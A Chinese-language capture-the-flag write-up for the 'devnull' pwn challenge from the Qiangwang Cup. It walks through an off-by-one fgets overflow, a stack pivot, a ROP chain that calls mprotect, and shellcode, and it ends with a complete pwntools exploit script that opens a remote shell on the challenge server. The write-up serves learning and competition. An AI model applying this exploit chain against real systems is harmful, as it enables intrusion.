第一次打强网杯，加上强网先锋中的devnull这道题，一共放了18道pwn题。强pwn杯了属于是。不过自己还是太菜了18道pwn，就会做一道。主要也确实是没有学到后面的部分，目前的水平也只够做devnull这道题的，相信明年的时候会做出来更多的pwn题。然后这里我详细写一下devnull这道题的write up。

这道题应该是必须要一个2.34的libc，而且用glibc-all-in-one里的libc patch上去还有点问题。所以我选择了直接把文件拉到docker里做。

如果你想简单学习一下docker，可以看一下我写的这篇[文章](https://www.cnblogs.com/ZIKH26/articles/16278170.html)

## 保护策略：



## 漏洞所在:

首先要先明确一点，fgets(s,n,stdin)函数只能读入n-1个字符，最后会在字符串末尾添加一个\x00。

我们看一下下面三张图片：







发现fgets将数据写入s的地址和fd(这个是接下来read函数的fd，等下会分析)相差0x20，而我们可以输入0x21个数据(其实只能写入0x20个字节数据，最后一个是\x00)，而最后的00就溢出到了fd上。


我们再看下read函数





发现正常的话，这里的fd应该是3。(然后再看下read函数的后两个参数)





然后得出结论，如果fd是0的话，输入0x2c个数据是可以溢出到返回地址的。但正常情况下fd是3，也就是说，正常情况下我们其实没法用这个read从stdin上输入数据。所以必须让它为0，方法就是fgets输满，将fd溢出成0（上面提过了）

## 利用思路：

### 控制第二个read的buf

由于我们这道题没办法泄露libc地址，但是正好有个mprotect函数，所以就考虑去执行mprotect获取一片可读可写可执行的区域后，打shellcode来获取shell。尽管题目close(1) 但是我们只要可以获取shell，将输出重定向一下即可，所以问题不大。

然后现在就考虑怎么去执行mprotect函数打shellcode。

上面提到了，我们可以溢出到返回地址，但是也仅仅只能溢出到返回地址，所以考虑来打一个栈迁移。

但是最重要的一个问题就是我们怎么将数据输入到迁移的地方。就是迁移之后，执行啥？

我们再看看还有没有能利用的地方了，发现还有最后一个read可以用。


而这个read输入的数据是写到了buf的位置。



而buf又正好可以被第一次read函数的数据给覆盖掉，所以说这个read写入数据的地址其实是可控的，因此我们可以将执行流迁移到一个固定且已知的地址，然后再用第二次read向迁移的地方布置一个rop链。

### 布置rop链

我感觉这道题布置rop链这里也挺关键的，不知道其他师傅和我的思路一不一样。

我们调试一下，看看执行迁移时寄存器的值有没有什么能利用的。



此时是栈迁移时寄存器的值，我们发现rdx的值正好是7，而我们最终要想办法执行mprotect函数的值也要是7，因此rdx的值就可以直接利用，不需要再去改变了(这个rdx是strlen函数执行后给write函数残留下来的)，同时rsi的值对于mprotect函数来说是更改内存权限的大小，很明显此时的rsi作为大小的话，也是ok的。

因此最后我们只需要将rdi控制住即可，想办法将rdi改成0x3ff000这个地址(因为我选择迁移到这个地址上)，之所以没迁移到bss段上是因为程序执行了mprotect函数，将0x400000以及后面0x402000 0x403000这几个区域的权限都改成了r，因此数据写不进去了...所以只能选择迁移到上面的0x3ff000处。




### 控制rdi寄存器

接下来就是考虑怎么控制rdi寄存器，可以说控制rdi是布置rop链的核心，如果这里搞定了，剩下的也很容易搞定，如果这里卡住的话，就没法继续下去了


我们先使用Ropgadget搜一下，发现没有能控制rdi或者edi的寄存器的gadget



因此我们只能去间接控制rdi的值，我们将目光转到call mprotect之前的汇编上。



发现rdi是rax给的。我们去看看，有没有gadget能控制rax或者eax



我们发现这个gadget似乎能控制eax，只要我们能控制rbp的话，最后发现很轻易的就可以用pop 来控制rbp(如下图)。所以我们通过rbp来控制eax，通过eax来控制mprotect函数的rdi寄存器。




因此我们在rop链上先写一个pop rbp;ret的指令，然后将[rbp-0x18]的值给eax(我们需要提前在rbp-0x18的位置布置好eax的值)，最后放上0x4012D5的地址即可正确执行mprotect函数了。

**有个伏笔要提一下，就是我们需要提前在rbp-0x18的地方布置我们的eax值(rbp的值改0x3ff000-8,因为我们要保证迁移后正好要到0x3ff000这个地址)，便于后续的rop。而这个值要产生就要在第一次read函数的时候将第二次read的buf改成0x3ff000-8。这样再输入的时候，我们就可以在0x3ff000-8的位置放成eax的值了，之后的0x3ff000就是pop rbp;ret的地址，然后再往下是rbp的值，接着就是mov eax, dword ptr [rbp - 0x18] ; leave ; ret指令的地址。而这个指令执行的时候[rbp-0x18]正好指向的就是eax的值(pop rbp的时候把rbp改成0x3ff000+0x10)这样才能保证执行mov eax, dword ptr [rbp - 0x18] ; leave ; ret指令中的leave;ret之后，再一次迁移还在rop链上。(这里的过程要是没理解的话，可以去对着脚本调试一下，应该就明白了，感觉我这么硬讲确实有点不容易理解hh)**

可以说这里的布局是一环扣一环，错一个地址都不行(可能其他师傅也有其他方法吧)

至此rop链的核心部分已经说明完了，最后填上0x4012D5这个地址(也就是call mprotect之前的那个mov rdi,rax),程序到这里之后，就会顺利成章的执行mprotect函数了。(效果如下图)



最后算好shellcode的地址，然后布置shellcode的地址到rop链上。最终即可获取shell。




## 打远程的一个坑:
实际做题的时候，我只打通了本地，感觉确实都没有问题，但远程始终没有通，而且这道题我也是拉到21.10的docker中跑的，跟远程的libc也是一模一样的。然后懵了很久很久，最终 winmt 师傅提醒我说三次payload要一起发送(就是本来发三次payload，但是打远程需要3次的payload合成一个payload发送一次)才能打通远程，emmm，这个结论的原因师傅们也没有给出一个明确的答案，所以关于这个问题暂且不谈。

不过有个问题就是一次都将数据发送给fgets函数，正常来说多余的字节都存留在了输入缓冲区，但是read函数并不存输入缓冲区中读入数据。可read函数最后也确实接收到了数据...因此我对这里感到非常疑惑。最终请教了 winmt 师傅和 roderick 师傅，终于才搞明白这里。因为setvbuf函数将输入缓冲区设置为了每次读入一个字符，正常情况下fgets函数是读入数据遇到\n为止，将这些数据全部读入到输入缓冲区中，然后再从输入缓冲区中读入n-1个字符。而setvbuf函数执行后fgets函数就变成了从缓冲区中一个字符一个字符读入后，再将字符给到指定内存地址。因此读入n-1字符后自然就停止了，而后面一起发送的数据则留在了stdin中，最后read(0,buf,length)的时候自然就从stdin中读出来了数据。

最后打通了，别忘了将输出重定向~


## EXP:

```py
from tools import *
#p=process('a')
p=remote('39.107.237.149',12998)
context.log_level='debug'
context.arch='amd64'
#debug(p,0x40145e,0x4014E3,0x401512)
#p.sendlineafter('please input your filename\n',0x20*b'a')
#debug(p,0x40145E)
leave_ret=0x401511
addr=0x3ff000
add_rax=0x401297
mov_eax=0x401351
pop_rbp_addr=0x000000000040129d
main_addr=0x401513
payload=0x20*b'a'+(0x14)*b'c'+p64(addr-8)+p64(addr-8)+p64(leave_ret)+p64(0x3ff000)+p64(pop_rbp_addr)+p64(0x3ff000-8+0x18)+p64(mov_eax)+p64(0x4012D5)+p64(0xdeadbeef)+p64(0x3ff030)+shellcode_store('shell_64')
p.sendlineafter('please input your filename\n',payload)

#p.sendafter('Please write the data you want to discard\n',(0x14)*b'c'+p64(addr-8)+p64(addr-8)+p64(leave_ret))
#payload=p64(0x3ff000)+p64(pop_rbp_addr)+p64(0x3ff000-8+0x18)+p64(mov_eax)+p64(0x4012D5)+p64(0xdeadbeef)+p64(0x3ff030)+shellcode_store('shell_64')
#p.sendlineafter('please input your new data\n',payload)

p.interactive()
```
